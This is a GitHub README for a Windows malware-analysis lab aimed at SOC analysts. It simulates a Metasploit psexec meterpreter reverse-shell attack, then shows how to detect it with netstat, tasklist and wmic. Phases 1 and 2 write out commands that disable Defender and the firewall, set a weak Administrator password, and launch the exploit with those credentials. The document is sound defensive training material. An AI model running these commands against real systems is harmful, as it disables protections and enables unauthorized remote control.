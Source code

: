 # Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

 ![Disable Defender](./01_disable_defender.png)

---

## Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

 ![Metasploit Attack Setup](./02_msf_attack_setup.png)

---

## Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

 ![Netstat Connections](./03_netstat_ports.png)

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

 ![Modules via Tasklist](./04_netstat_pid_modules.png)

---

## Understanding the DLL Modules in a Malicious PowerShell Process

In the screenshot below, we observe a PowerShell process (`powershell.exe`) with **PID 1476**, and several associated **dynamic link libraries (DLLs)** loaded into its memory space:

 ![PID Modules - tasklist Output](./06_tasklist_dll.png)

These DLLs — such as `ntdll.dll`, `wow64.dll`, `wow64base.dll`, `wow64win.dll`, `wow64con.dll`, and `wow64cpu.dll` — are **core components of the Windows operating system** and are **not inherently malicious**.

> ❗ **Does every malicious payload load these exact DLLs?**  
> No. Malware often injects itself into legitimate processes or loads additional, custom libraries at runtime.

However, this particular set of DLLs represents the **minimum runtime environment** required for a PowerShell-based payload to:

- Interface with system calls (`ntdll.dll`)  
- Operate in a 32-bit compatibility layer on a 64-bit OS (`wow64*.dll`)  
- Enable shell command execution and remote control

---

### Key Insight for Analysts

The presence of these DLLs alone **does not confirm malicious behavior**. However, when correlated with:

-  **Unusual parent processes** (e.g., spawned from `cmd.exe`)
-  **Outbound connections** to external IPs (e.g., port `4444`)
-  **Encoded or obfuscated PowerShell commands**

…it significantly increases confidence that the process is tied to a **reverse shell or post-exploitation activity**.

This type of analysis reinforces the need for **multi-dimensional threat hunting**, combining:
- Process forensics
- Network monitoring
- Command-line tracing
- Module introspection

to detect stealthy malware that evades signature-based defenses.

---
---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

 ![WMIC Process Details](./05_wmic_analysis.jpeg)

---

## Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
[LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
└── README.md
```

## License

MIT License
